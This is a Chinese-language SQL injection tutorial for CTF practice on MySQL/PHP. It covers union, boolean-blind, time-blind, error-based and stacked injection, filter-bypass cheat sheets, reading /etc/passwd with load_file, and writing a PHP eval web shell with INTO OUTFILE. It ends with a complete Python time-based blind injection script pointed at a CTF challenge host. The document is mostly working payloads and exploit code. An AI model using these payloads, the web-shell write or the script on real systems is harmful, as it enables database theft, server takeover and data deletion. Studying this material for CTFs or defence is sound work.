





# 数据库基础（mysql为例）
## DBMS
数据库管理系统



当使用用户提供的信息构建对数据库的查询时，恶意用户可以欺骗查询用于原始程序员意图以外的其他用途，从而使用称为 SQL 注入的攻击为用户提供查询数据库的访问权限。 （本次主要针对关于关系型数据库）

[数据库管理系统(DBMS)CSDN博客](https://blog.csdn.net/senxu_/article/details/126877128)

## 数据库结构
库->表->字段（列）->数据，（类似树的数据结构，但最后字段每一层有链接）

## 数据库基础语法
1. `select`

```sql
select * from table_name where id=?
```

2. `insert`

```sql
insert INTO wp_user VALUES(1,1,1)
```

3. `union`

```sql
select id,usr,passwd from database 
union
select 1,2,3
```

使用UNION的时候要注意两个表的列数量必须相同。

4. `limit`

返回前number行数据

```sql
select * from database limit number
```

从`set + 1`行开始返回`row`行的数据

```sql
select * from database limit set,row
```

5. `注释`

```sql
常用的注释方式
1. SELECT username,password FROM users WHERE id = ((1)) union select username,password from user;-- )) limit1,1;后面的内容都将被注释
2. select * from database limit 1;#后面注释
3. select * /*注释*/ from database limit 1;
```

6. `order by`

ORDER BY 是 SQL 查询中用于对结果集进行排序的子句。它可以按照一个或多个列对查询结果进行升序（ASC）或降序（DESC）排列

```sql
SELECT * FROM posts
ORDER BY id ASC;
```

```sql
SELECT column1, column2, ... FROM table_name [WHERE condition] ORDER BY column_name [ASC|DESC];
```

7. 常用sql参数函数

```sql
user()：当前数据库用户
database()：当前数据库名
version()：当前使用的数据库版本
@@datadir：数据库存储数据路径
concat()：联合数据，用于联合两条数据结果。如 concat(username,0x3a,password)
group_concat()：和 concat() 类似，如 group_concat(DISTINCT+user,0x3a,password)，用于把多条数据一次注入出来
concat_ws()：用法类似
hex() 和 unhex()：用于 hex 编码解码
ASCII()：返回字符的 ASCII 码值
CHAR()：把整数转换为对应的字符
load_file()：以文本方式读取文件，在 Windows 中，路径设置为 \\
```

## 数据库枚举
`INFORMATION_SCHEMA`是 SQL 标准中定义的一个特殊的数据库（或称为“元数据数据库”），用于存储数据库的元数据信息。它包含了数据库中所有对象（如表、列、索引、视图、存储过程等）的描述信息。通过查询`INFORMATION_SCHEMA`，用户可以获取数据库的结构信息，而无需直接访问系统表。

> 想要查询某一个数据库中的表可以使用 `.` 运算
>

```sql
SELECT * FROM 数据库.表
```

### 查询所有数据库
```sql
select schema_name from information_schema.schemata;
```

### 查询所有表
```sql
select table_name from information_schema.tables where table_schema="database";
```

### 查询所有列
```sql
select column_name from information_schema.columns where table_schema="test" and table_name="123"
```

## 文件
### 权限
#### 查询当前用户
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

#### 管理权限查询
```sql
SELECT super_priv FROM mysql.user WHERE user = "root";
```

#### 查看用户可执行命令
```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee = "'root'@'localhost'"
```

#### 具体用户在指定数据库下的权限
```sql
SELECT
grantee, table_schema
AS
database_name, privilege_type
FROM
information_schema.schema_privileges
WHERE
grantee = "'test'@'%'"
AND
table_schema ='test'
;
```

**如果用户具有 FILE 权限，则可对文件进行读取或者写入操作**

### secure_file_priv相关
`secure_file_priv` 是 MySQL 中的一个系统变量，用于控制 MySQL 服务器对文件操作的权限，特别是与 

`LOAD DATA INFILE` 和`SELECT ... INTO OUTFILE`

相关的文件操作。它的主要目的是增强安全性，防止用户通过 MySQL 访问或操作服务器上的任意文件。

| 值 | 意义 |
| --- | --- |
| 空字符串 ( `''` ) | 允许文件操作在任意目录进行（不推荐，存在安全风险）。 |
| 目录路径 | 限制文件操作只能在指定目录内进行（推荐）。 |
| NULL | 禁止所有文件操作（最严格的安全设置）。 |


可以执行`show variables like"secure_file_priv";`来查看其值。



在联合注入中的应用

```sql
#5.6版本前
SELECT variable_name, variable_value
FROM information_schema.global_variables where variable_name = "secure_file_priv";
#5.6版本后
SELECT VARIABLE_VALUE
FROM performance_schema.global_variables WHERE VARIABLE_NAME = 'secure_file_priv';
```

### 文件读取
SQL中读取文件的操作：

```sql
SELECT LOAD_FILE('/etc/passwd');
```

可以读取网站源文件等敏感信息

### 文件写入
> 当涉及到将文件写入后端服务器时，它在现代 DBMS 中变得更加受限，因为我们可以利用它在远程服务器上编写 Web shell，从而执行代码并接管服务器。这就是为什么现代 DBMS 默认禁用文件写入，并且需要 DBA 的某些权限才能写入文件。在写入文件之前，我们必须首先检查我们是否有足够的权限，以及 DBMS 是否允许写入文件。
>

利用条件：

```sql
1.用户具有 FILE权限
2.secure_file_priv 为空
3.具有目标目录的写入权限
```

#### SELECT INTO OUTFILE
```sql
SELECT * from test.users INTO OUTFILE '/';
```

```sql
select "<?php @eval($_POST[1]);?>" into outfile '/var/www/html/webshell.php';
```

```sql
SELECT * FROM test.users 
INTO OUTFILE '/opt/1panel/apps/openresty/openresty/www/sites/php1/index/3.txt';
```

# CTF中的sql注入（php为例）
## 判断闭合以及构造闭合
## 联合注入
### 数字型
当一个sql的查询语句用

```python
SELECT test from schema where id=$_GET['id']
```

#### 判断闭合方式
当我们输入`id=3-1`的时候却返回了`id=1`的值，因此我们可以判断这里为数字型注入

#### 拼接命令
当我们输入`id=1 union select * from schema`时，却没有输出我们想要的数据，这是因为php页面这里只显示了一行数据

所以我们可以使用`limit 0,1`来依次输出，也可以让前面的值无法查询，例如`null`

### 字符型
1. **构造闭合** 在有报错时，可以输入特殊字符比如 `\` 通过返回的报错信息判断闭合方式

```plain
SELECT username,password FROM users WHERE id = "1\"; -> id=xx
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'' at line 1
-> near '1\' at line 1
```

所以可以判断闭合方式

2. **查询列数** 由于`union`要求前面的查询数据和后面的查询列数要相等，所以我们要先确定列数

```plain
id = 1 Order by 1;
id = 1 Order by 2;
id = 1 Order by 3; # 报错 确定列数为2
```

3. **获取数据库名**

```plain
id=1' union select 1,database(),3 --+    //当前数据库
id=1' union select 1,schema_name,3 FROM information_schema.schemata --+    //所有数据库
```

4. **获取表名**

```plain
id=1' union select 1,grou_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

5. **获取列名**

```plain
id=1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="表名" and table_schema=database() --+
```

6. **获取数据**

```plain
id=1' union select 1,group_concat(column_name1),group_concat(column_name2) from table_name
```

## 盲注
### 布尔盲注
#### 注意点
布尔盲注适用于没有回显明确报错，但会回显是否为正常页面

布尔盲注，即在页面没有错误回显时完成的注入攻击。此时我们输入的语句让页面呈现出两种状态，相当于true和false，根据这两种状态可以判断我们输入的语句是否查询成功。

#### 题目源码
```plain
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1 ";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
 
        if($row)
        {
          echo '<font size="5" color="#FFFF00">';        
          echo 'You are in...........';
          echo "<br>";
            echo "</font>";
          }
        else 
        {
    echo '<font size="5" color="#FFFF00">';
    ｝
```

#### 解题步骤
这里用一张图来简单表示布尔盲注做题过程



1. 判断数据库类型
+ MySQL数据库表 information_schema.tables
+ access msysobjects 
+ SQLServer sysobjects

使用如下语句来判断数据库类型，有正确回显的就是

```plain
?id=1' and exists(select*from information_schema.tables) --+
?id=1' and exists(select*from msysobjects) --+
?id=1' and exists(select*from sysobjects) --+
```

2. 判断当前数据库名

```bash
1：判断当前数据库的长度，利用二分法
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>5 --+  //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>10 --+  //不显示任何数据
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>7 --+  //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>8 --+  //不显示任何数据
 
  大于7正常显示，大于8不显示，说明大于7而不大于8，所以可知当前数据库长度为8个字符
 
2：判断当前数据库的字符,和上面的方法一样，利用二分法依次判断
//判断数据库的第一个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),1,1))>115 --+ //100为ascii表中的十进制，对应字母s
//判断数据库的第二个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),2,1))>100 --+
//判断数据库的第三个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),3,1))>100 --+
...........
由此可以判断出当前数据库为 security
```

这里可以使用python脚本循环自动爆破

3. 判断当前库的表名

做法与上面类似，也可以用脚本

```plain
//猜测当前数据库中是否存在admin表
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from admin) --+
1：判断当前数据库中表的个数
// 判断当前数据库中的表的个数是否大于5，用二分法依次判断，最后得知当前数据库表的个数为4
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>3 --+
 
2：判断每个表的长度
//判断第一个表的长度，用二分法依次判断，最后可知当前数据库中第一个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>6 --+
//判断第二个表的长度，用二分法依次判断，最后可知当前数据库中第二个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=6 --+
 
3：判断每个表的每个字符的ascii值
//判断第一个表的第一个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+
//判断第一个表的第二个字符的ascii值               
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>100 --+
.........
由此可判断出存在表 emails、referers、uagents、users ，猜测users表中最有可能存在账户和密码，所以以下判断字段和数据在 users 表中判断
```

+ **后面步骤与上类似**

#### 原理
通过`substr()`函数截取查询到数据里的一个字符，然后通过`ascii()`将其转化为ASCII码，再用一个关系符`<>=`来确实是否正确

### 时间盲注
> 也叫延时注入。通过观察页面，既没有回显数据库内容，**又没有报错信息也没有布尔类型状态**，那么我们可以考虑用“绝招”--延时注入。延时注入就是将页面的时间线作为判断依据，一点一点注入出数据库的信息。我们以第9关为例，在id=1后面加单引号或者双引号，页面不会发生任何改变，所以我们考虑绝招延时注入。
>

#### 关键函数
`sleep()`：延时函数，以秒为单位

benchmark()

`if()`：判断函数

> if(expr1,expr2,expr3) 如果expr1的值为true，则返回expr2的值，如果expr1的值为false，则返回expr3的值。 
>

#### 步骤
1. 判断闭合方式

```plain
?id=1 and sleep(5) --+
?id=1' and sleep(5) --+
?id=1" and sleep(5) --+
```

如果有一个返回时间大于5秒，那么就确定了闭合方式

2. 获取数据库名字

延时注入与布尔盲注类似，构造方法如下，提交参数

```plain
?id=1' and if(ascii(substr(database(),1,1))= 115,sleep(5),0) --+
```

以此来编写一个python自动脚本，可以爆破所有信息

#### 注意
延时时间要把控好，过短可能会由于服务器卡顿导致返回时间变长以至于判断错误，过长过于浪费时间

## 报错注入
### 原理
当网站开启了错误调试信息时，我们可以利用产生报错带出要查询的数据

### xpath报错
#### updatexml()
> updatexml（）是 MySQL 中的一个 XML 处理函数，用于更新 XML 文档的某个节点
>

```sql
UPDATEXML(xml_target, xpath_expr, new_value)
```

+ xml_target ：目标 XML 文档。
+ xpath_expr ：XPath 表达式，用于定位需要更新的节点。
+ new_value ：新的节点值。

`updatexml`函数在执行时，第**二**个参数**应为合法的XPATH路径**，否则会在**引发报错的同时**将传入的参数**进行输出**。

可以构造类似下面的语句来查询数据

```python
?id=1' or updatexml(1,concat(0x7e,(select users from wp_user),0x7e),1)
```

#### extractvalue()
`extractvalue`原理与上类似，参数位置为第二个

> extractvalue(xml_document,xpath_string)
>
>  第一个参数:XML_document是 String 格式，为XMIL文档对象的名称。
>
>  第二个参数:XPath_string (Xpath格式的字符串)。
>
>  作用: 从目标XML中返回包含所查询值的字符串。
>
>  ps: 返回结果限制在32位字符。
>

例：

```python
id=1' and extractvalue(1,concat(0x7e,database())) --+
```

### floor()
payload：

```python
爆出当前数据库

?id=1' and (select 1 from (select concat((select database()),floor(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出所有的数据库 通过limit来控制

?id=1' and (select 1 from (select concat((select schema_name from information_schema.schemata limit 4,1),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出表名

?id=1' and (select 1 from (select concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出字段

?id=1' and (select 1 from (select concat((select column_name from information_schema.columns where table_name='user' limit 0,1),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出数据

?id=1' and (select 1 from (select concat((select username from users),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

```

原理：[SQL注入报错注入之floor()报错注入原理分析_sql注入floor-CSDN博客](https://blog.csdn.net/miraclehw/article/details/129250360)

## 堆叠注入
当目标开启多语句执行时，可以采用多语句执行的方式来修改数据库的任意结构和数据

```php
<?php 
$db=new PDD("mysql:host=localhost:3306;dbname=test",'root','root');
$sql="SELECT title,content FROM wp_news WHERE id='".$_GET['id']."'";
try {
  foreach(db->query($sql) as $row){
    print_r($row);
  }
}
catch(PDDException $e){
  echo $e->getMessage();
  die();
}
?>
```

此时就可以在闭合单引号后执行任意sql语句，如

```php
?id=1';delete from wp_files;#
```

# ByPass
## 单引号绕过（宽字节注入）
宽字节是指多个字节宽度的编码，GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节。转义函数在对这些编码进行转义时会将转义字符 ‘\’ 转为 %5c ,于是我们在他前面输入一个单字符编码与它组成一个新的多字符编码，使得原本的转义字符没有发生作用。

由于在数据库查询前使用了GBK多字节编码，即在汉字编码范围内使用两个字节会被编码为一个汉字（前一个ascii码要大于128，才到汉字的范围）。然后mysql服务器会对查询语句进行GBK编码，即下面所说的

我们**在前面加上 %****df****' ,转义函数会将%df’改成%df\’ , 而\ 就是%5c ，即最后变成了%df%5c'**，而%df%5c在GBK中这两个字节对应着一个汉字 “運” ，就是说 \ 已经失去了作用，%df ' ,被认为運' ,成功消除了转义函数的影响。

+ ' %27
+ \ %5c
+ %df\' %df%5c' -> 運'



其实这个是浏览器显示编码的问题，我们将浏览器编码切换为GB2312即简体中文，如下就正常了。



**GBK首字节在 0x81~0xFE 范围内、尾字节在 0x40~0xFE(除了0x7F外) 都可以利用。**

## 双引号（16进制绕过）
```sql
SELECT * FROM users where username = "admin";
# =>
SELECT * FROM users where username = 0x61646d696e;
```

## 逗号（join绕过）
```sql
UNION SELECT 1,2 FROM ...
```

```sql
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b
```

`(SELECT 1)a`创建一个临时表a，包含 1 列，值为1。

`(SELECT 2)b`创建一个临时表b，包含 1 列，值为。

`JOIN`操作将表a和表b进行连接。由于没有指定连接条件，默认是笛卡尔积（即所有可能的组合）。 最终结果是一个包含 2 列的结果集，每行的值分别是1和2。 这里的子查询定义表别名a,b，其表内只有1和2(可以一直JOIN下去...)

## Cheatsheet
| 绕过类型        | 方法                    | 示例                                                     |
| ----------- | --------------------- | ------------------------------------------------------ |
| **绕过空格**    | 1. 使用 Tab 缩进          | `SELECT[Tab]*[Tab]FROM[Tab]users`                      |
|             | 2. 使用 %a0 代替空格        | `SELECT%a0*%a0FROM%a0users`                            |
|             | 3. 使用括号()绕过           | `SELECT(*)FROM(users)`                                 |
|             | 4. 使用注释符号/**/绕过       | `SELECT/**/*/**/FROM/**/users`                         |
|             |                       |                                                        |
| **绕过逗号**    | 1. 使用 FROM 和 FOR 代替逗号 | `1 AND SUBSTR(SUBSTR(database() FROM 1 FOR 1))='e'--+` |
|             | 2. 使用 JOIN 代替逗号       | `UNION SELECT * FROM (SELECT 1)a JOIN(SELECT 2)b --+`  |
|             | 3. 使用 OFFSET 代替       | `SELECT * FROM users LIMIT 1 OFFSET 1`                 |
|             |                       |                                                        |
| **逻辑运算**    | 1. 替换 AND = `&&`      | `1 && 1=1`                                             |
|             | 2. 替换 OR = ```        | `1 ` 1=1`                                              |
|             | 3. 替换 XOR = `#`       | `1 # 1=1`                                              |
|             | 4. 替换 NOT = !         | `!1=1`                                                 |
|             | 5. 使用 <> 或 != 代替不等于   | `SELECT * FROM users WHERE id != 1`                    |
|             |                       |                                                        |
| **绕过等号**    | 1. 使用 LIKE 和 %通配符     | `SELECT * FROM users WHERE name LIKE'%admin%'`         |
|             |                       |                                                        |
| **绕过关键字**   | 1. 双写（特定限制）           | `ununionion sselectelect * ffromromusers`              |
|             | 2. 大小写混淆（特定限制）        | `UniON SelecT * FroM users`                            |
|             | 3. 使用内联注释(仅mysql)     | `1' union /*!select*/ 1,2`                             |
|             |                       |                                                        |
| **单引号过滤绕过** | 宽字节绕过                 | `?id=-1%df' UNION SELECT 1,2 --+`                      |
|             |                       |                                                        |
| **过滤双引号绕过** | 十六进制代替                | `SELECT * FROM users where username =0x61646d696e;`    |


# 额外补充
这里提供一个时间盲注的python脚本，可以学一下逻辑实现，网上也有许多

```python
import requests
import time
import urllib.parse

from bottle import response

url = "http://eci-2zedg1ipvojwqdmexh9f.cloudeci1.ichunqiu.com/login.php"
#延时的判断时间
delay = 1
# 获取数据库名称
length = 6
payload = {
    "password":f"union select if(length(database())>{length},sleep(3),1),2#",
    "username":"\\"
}
def string_to_hex(input_string):
    return "0x" + "".join(f"{ord(char):02x}" for char in input_string)

def get_db_name(length):
    db_name=""
    for i in range(1,length+1):
        for ascii_code in range(32,127):
            payload = {
                "password": f"union select if(ascii(substr(database(),{i},1))={ascii_code},sleep(2),1),2#",
                "username": "\\"
            }
            start_time=time.time()
            response=requests.post(url,data=payload)
            print(f"[+]Time:{time.time()-start_time}[+] id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
            if time.time()-start_time >= delay:
                print(f"[+]Time: {time.time() - start_time} [+]id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
                db_name += chr(ascii_code)
                print(chr(ascii_code),end="")
                break
    return db_name

def get_db_tables(db_name,limit):
    tb_names=[]
    tb_name=""
    db_name=string_to_hex(db_name)
    for i in range(1,5):
        for ascii_code in range(32,127):
            payload = {
                "password": f"union select if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),{i},1))={ascii_code},sleep(2),1),2#",
                "username": "\\"
            }
            start_time=time.time()
            response=requests.post(url,data=payload)
            print(f"[+]Time: {time.time() - start_time} [+]id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
            if time.time()-start_time >= delay:
                print(f"[+]Time: {time.time() - start_time} [+]id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
                tb_name += chr(ascii_code)
                break
            else:
                continue
    if tb_name:
        tb_names.append(tb_name)
    return tb_names

def get_tb_columns(tb_name,limit):
    col_names=[]
    col_name = ""
    tb_name=string_to_hex(tb_name)
    for i in range(1,10):
        for ascii_code in range(32,127):
            payload = {
                "password": f"union select if(ascii(substr((select column_name from information_schema.columns where table_name={tb_name} and table_schema=database() limit {limit},1),{i},1))={ascii_code},sleep(2),1),2#",
                "username": "\\"
            }
            start_time=time.time()
            response=requests.post(url,data=payload)
            print(f"[+]Time: {time.time() - start_time} [+]id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
            if time.time()-start_time >= delay:
                print(f"[+]Time: {time.time() - start_time} [+]id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
                col_name += chr(ascii_code)
                break
            else:
                continue
    if col_name:
        col_names.append(col_name)
    return col_names

def get_columns_fields(col_name,tb_name,db_name,limit):
    cols_names=[]
    cols_name = ""
    for i in range(1,18):
        for ascii_code in range(32,127):
            payload = {
                "password": f"union select if(ascii(substr((select {col_name} from {db_name}.{tb_name} limit {limit},1),{i},1))={ascii_code},sleep(2),1),2#",
                "username": "\\"
            }
            start_time = time.time()
            response = requests.post(url, data=payload)
            # print(f"[+]Time: {time.time() - start_time} [+]id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
            if time.time() - start_time >= delay:
                print(
                    f"[+]Time: {time.time() - start_time} [+]id: {i} [+]ascii: {ascii_code} [+]char: {chr(ascii_code)}")
                cols_name += chr(ascii_code)
                break
            else:
                continue
    if cols_name:
        cols_names.append(cols_name)
    return cols_names


def main():
    #print("Getting database name...")
    #db_name=get_db_name(length)
    #print(f"[+]Database name: {db_name}")

    #print("Getting table name...")
    #table_names = get_db_tables('testdb', 0)
    #print(f"Table names: {table_names}")

    #print("Getting column names...")
    #column_names = get_tb_columns('double_check',0)
    #print(f"Column names: {column_names}")

    print("Getting fields...")
    data = get_columns_fields("secret", "double_check", "testdb", 0)
    print(f"data: {data}")


if __name__=="__main__":
    main()
```

